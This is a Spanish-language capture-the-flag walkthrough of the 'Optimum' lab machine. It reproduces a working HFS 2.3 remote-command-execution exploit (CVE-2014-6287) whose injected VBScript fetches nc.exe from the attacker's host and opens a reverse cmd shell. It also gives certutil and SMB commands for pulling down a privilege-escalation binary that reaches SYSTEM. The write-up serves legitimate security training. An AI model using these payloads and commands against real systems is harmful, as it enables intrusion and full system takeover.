

# Optimum

## Reconocimiento

Empezamos con la fase de reconocimiento probando si tenemos conexión con la maquina enviando una traza **ICMP** con ping.

```shell
> ping -c 1 10.10.10.8
PING 10.10.10.8 (10.10.10.8) 56(84) bytes of data.
64 bytes from 10.10.10.8: icmp_seq=1 ttl=127 time=41.0 ms

--- 10.10.10.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 41.016/41.016/41.016/0.000 ms
```

Tenemos conexión con la maquina entonces vamos a escanear todo el rango de puertos abiertos por el protocolo `TCP`

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.8

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

```

De esos puertos encontrados vamos a escanear las versiones con **-sV** y con **-sC** vamos a enviar unos scripts básicos de reconocimiento en este caso para el puerto 80 (http)

```shell
> nmap -sCV -p80 10.10.10.8 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Puerto 80 (http)

<figure><figcaption></figcaption></figure>

Vemos que nos estamos enfrentando a un **httpfileserver 2.3** que según wikipedia **HTTP File Server**, también conocido como HFS, es un servidor web gratuito diseñado específicamente para publicar y compartir archivos.

Vamos a buscar vulnerabilidades asociadas a **httpfileserver 2.3** en el siguiente link https://www.exploit-db.com/exploits/49584 encontramos el siguiente script en python para ejecutar comandos de forma remota y acceder a la maquina

```python
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!

import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "<tu-ip>" #local IP address
	local_port = "<puerto>" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

* Antes de lanzar-lo tenemos que compartir el nc.exe con python

```shell
> locate nc.exe
/usr/share/SecLists/Web-Shells/FuzzDB/nc.exe
> cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
> python3 -m http.server 80
```

* Lo lanzamos y recibimos la reverse shell

```shell
> python exploit.py
[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script
> python exploit.py 10.10.10.8 80
```

```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.8] 49196
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>
```

## Escalada de Privilegios

Ahora nos falta escalar de privilegios al usuario **administrador**

Con la herramienta **windows-exploit-suggester.py** a partir de la informacion del `systeminfo` conseguira decirnos vias potenciales para escalar privilegios

```shell
> git clone https://github.com/bitsadmin/wesng
> cd wesng
```

* Opciones de `windows-exploit-suggester.py`

```shell
> python3 wes.py
usage: wes.py [-u] [--definitions [DEFINITIONS]] [-p INSTALLEDPATCH [INSTALLEDPATCH ...]] [-d] [-e]
              [--hide HIDDENVULN [HIDDENVULN ...]] [-i IMPACTS [IMPACTS ...]]
              [-s SEVERITIES [SEVERITIES ...]] [-o [OUTPUTFILE]] [--muc-lookup] [--os [OPERATING_SYSTEM]]
              [-c] [-h] [--update-wes] [--version] [-m [MISSINGPATCHES]] [-q [QFEFILE]]
              systeminfo

Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )

positional arguments:
  systeminfo            Specify systeminfo.txt file

optional arguments:
  -u, --update          Download latest list of CVEs
  --definitions [DEFINITIONS]
                        Definitions zip file (default: definitions.zip)
  -p INSTALLEDPATCH [INSTALLEDPATCH ...], --patches INSTALLEDPATCH [INSTALLEDPATCH ...]
                        Manually specify installed patches in addition to the ones listed in the
                        systeminfo.txt file
  -d, --usekbdate       Filter out vulnerabilities of KBs published before the publishing date of the most
                        recent KB installed
  -e, --exploits-only   Show only vulnerabilities with known exploits
  --hide HIDDENVULN [HIDDENVULN ...]
                        Hide vulnerabilities of for example Adobe Flash Player and Microsoft Edge
  -i IMPACTS [IMPACTS ...], --impact IMPACTS [IMPACTS ...]
                        Only display vulnerabilities with a given impact
  -s SEVERITIES [SEVERITIES ...], --severity SEVERITIES [SEVERITIES ...]
                        Only display vulnerabilities with a given severity
  -o [OUTPUTFILE], --output [OUTPUTFILE]
                        Store results in a file
  --muc-lookup          Hide vulnerabilities if installed hotfixes are listed in the Microsoft Update
                        Catalog as superseding hotfixes for the original BulletinKB
  --os [OPERATING_SYSTEM]
                        Specify operating system or ID from list when running without this parameter
  -c, --color           Show console output in color (requires termcolor library)
  -h, --help            Show this help message and exit
  --update-wes          Download latest version of wes.py
  --version             Show version information
  -m [MISSINGPATCHES], --missing [MISSINGPATCHES]
                        Provide file with the list of patches missing from the system. This file can be
                        generated using the WES-NG's missingpatches.vbs utility
  -q [QFEFILE], --qfe [QFEFILE]
                        Specify the file containing the output of the 'wmic qfe' command

Examples:
  Download latest definitions
  wes.py --update
  wes.py -u

  Determine vulnerabilities
  wes.py systeminfo.txt
  
  Determine vulnerabilities using the qfe file. List the OS by first running the command without the --os parameter
  wes.py --qfe qfe.txt --os 'Windows 10 Version 20H2 for x64-based Systems'
  wes.py -q qfe.txt --os 9

  Determine vulnerabilities and output to file
  wes.py systeminfo.txt --output vulns.csv
  wes.py systeminfo.txt -o vulns.csv

  Determine vulnerabilities explicitly specifying KBs to reduce false-positives
  wes.py systeminfo.txt --patches KB4345421 KB4487017
  wes.py systeminfo.txt -p KB4345421 KB4487017
  
  Determine vulnerabilies filtering out out vulnerabilities of KBs that have been published before the publishing date of the most recent KB installed
  wes.py systeminfo.txt --usekbdate
  wes.py systeminfo.txt -d

  Determine vulnerabilities explicitly specifying definitions file
  wes.py systeminfo.txt --definitions C:\tmp\mydefs.zip

  List only vulnerabilities with exploits, excluding IE, Edge and Flash
  wes.py systeminfo.txt --exploits-only --hide "Internet Explorer" Edge Flash
  wes.py systeminfo.txt -e --hide "Internet Explorer" Edge Flash

  Only show vulnerabilities of a certain impact
  wes.py systeminfo.txt --impact "Remote Code Execution"
  wes.py systeminfo.txt -i "Remote Code Execution"
  
  Only show vulnerabilities of a certain severity
  wes.py systeminfo.txt --severity critical
  wes.py systeminfo.txt -s critical
  
  Show vulnerabilities based on missing patches 
  wes.py --missing missing.txt
  wes.py -m missing.txt
  
  Show vulnerabilities based on missing patches specifying OS
  wes.py --missing missing.txt --os "Windows 10 Version 1809 for x64-based Systems"
  wes.py -m missing.txt --os 2

  Validate supersedence against Microsoft's online Update Catalog
  wes.py systeminfo.txt --muc-lookup

  Show colored output 
  wes.py systeminfo.txt --color
  wes.py systeminfo.txt -c

  Download latest version of WES-NG
  wes.py --update-wes
```

```shell
> python3 wes.py --update
Windows Exploit Suggester 1.03 ( https://github.com/bitsadmin/wesng/ )
[+] Updating definitions
[+] Obtained definitions created at 20230323
> python3 wes.py ../systeminfo.txt -e
```

* Encontramos el siguiente https://www.exploit-db.com/exploits/41020

```shell
> wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
```

Para transferir hay varias maneras de hacerlo yo lo haré de 2 formas

Con un servidor web con python

* Compartimos un servidor web con python

```shell
> python3 -m http.server 80
```

* Descargamos el .exe de nuestro servidor web con **certutil.exe**

```shell
C:\Windows\Temp\Privesc> certutil.exe -f -urlcache -split http://<tu-ip>/red.exe red.exe
```

* Escalamos de privilegios al usuario administrador

```shell
C:\Windows\Temp\Privesc> whoami
whoami
optimum\kostas

C:\Windows\Temp\Privesc> red.exe
red.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\Temp\Privesc> whoami
whoami
nt authority\system
```

Con smbserver

* Compartimos el recurso por smb

```shell
> smbserver.py smbFolder $(pwd)
```

* Copiamos el archivo

```shell
C:\Windows\Temp\Privesc> copy \\<tu-ip>\smbFolder\red.exe red.exe
```

* Escalamos de privilegios al usuario administrador

```shell
C:\Windows\Temp\Privesc> whoami
whoami
optimum\kostas

C:\Windows\Temp\Privesc> red.exe
red.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

\> whoami
nt authority\system
```
